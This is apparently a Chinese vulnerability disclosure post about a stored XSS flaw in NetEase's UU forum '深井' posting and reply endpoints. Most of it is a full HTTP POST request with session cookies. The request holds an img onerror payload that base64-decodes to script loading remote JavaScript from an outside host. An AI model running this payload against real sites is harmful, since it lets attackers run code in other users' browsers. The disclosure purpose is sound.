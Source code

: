 ```yaml
---
layout: post
title:  "中危(重复)：网易UU论坛深井Web发帖和回复存储型XSS漏洞"
date:   2023-09-15 10:26:18 +0800
categories: xss
---
```


## 漏洞名称

> 网易UU论坛深井Web发帖和回复存在存储型XSS漏洞，影响Web端和手机客户端应用

## 漏洞类型
> web漏洞，客户端漏洞，存储型XSS

## 危害等级
> 中危，重复漏洞

## 漏洞URL
- POST https://sowellwell.com/w/v1/community/post/new
- POST https://sowellwell.com/w/v1/comment/proxy
- 最新深井APP
- 弹窗测试,可以点开验证：`https://sowellwell.com/t/612f69f604c21506084dcda2/64fbcdd79f6f44db8d94a7d2`
## 关键数据包
1. 发送XSS帖子

        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=jssdk_pbRJTpNazMAEeEM2; _sj_web_session_id=_DeAsdSR
        Content-Length: 540
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/z/1y8
        Accept-Encoding: gzip, deflate
        Accept-Language: ja-JP,ja;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5

        {"coid":"","coids":["638ffd8957244da64ff580da"],"title":"测试标题？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题xss payload<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}
